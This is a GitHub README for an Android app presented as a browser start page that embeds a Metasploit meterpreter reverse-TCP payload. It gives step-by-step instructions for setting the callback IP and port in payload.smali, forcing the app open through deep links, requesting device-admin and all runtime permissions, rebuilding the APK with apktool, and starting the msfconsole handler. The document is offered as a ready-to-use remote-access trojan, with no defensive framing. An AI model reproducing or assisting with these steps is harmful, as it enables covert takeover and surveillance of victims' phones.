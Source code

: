<p align="center">
<img src="https://github.com/Ba-hub/Startpage/logo.png" height="60"><br>
A Metasploit Base Payload & Anonymous Browser Interface
</p>



## Features
- Listening Connection By Metasploit Framework 
- android/meterpreter/reverse_tcp 
- Added Deep Link Service
- Enable Device Admin Apk 
- Enable all permission in run time 

## Prerequisites 
 - Metasploit Framework
    - apktool
 - apk-signer click [HERE](https://github.com/Ba-hub/apk-signer.git) for Repository Clone


## Screenshot 
<img src="https://github.com/Ba-hub/Startpage/ss1.png" height="100"><br>

<img src="https://github.com/Ba-hub/Startpage/ss2.png" height="100"><br>

<img src="https://github.com/Ba-hub/Startpage/ss3.png" height="100"><br>

## Instructions

** Go to payload.smali Line No 19

```
.field public static final URL:Ljava/lang/String; = "ZZZZtcp://192.168.225.178:4444"

```

---- Change The IP Or Port 

** Go to AndroidManifeast.xml Line No 42

```
<data android:host="www.github.com" android:pathPrefix="/Ba-hub" android:scheme="myapp" />

```

--- change the host | pathPrefix | scheme [http/https/myapp] as your Wish Which Is Force to Open App By Your Provided URL same As Above 

### Apk Build 

``` 
apt install apktool 

apktool b -f Startpage -o Startpage.apk

```
You Can Also Edit By ApkEditor & ApkEditor Pro click [HERE](https://iconicbabay.github.io/download-anythings/) for downloads the Demo Apk 



### Listening Connection By Metasploit

```

msfconsole -q

msf6> use exploit/multi/handler

msf6> set payload android/meterpreter/reverse_tcp 

msf6> set LHOST <IP>

msf6> set LPORT <port>

msf6> exploit -j 

```

    

<br>
<p align="center">Made with 💀 By <a href="http://iconicbabay.medianewsonline.com">Ghosthub</a></p>
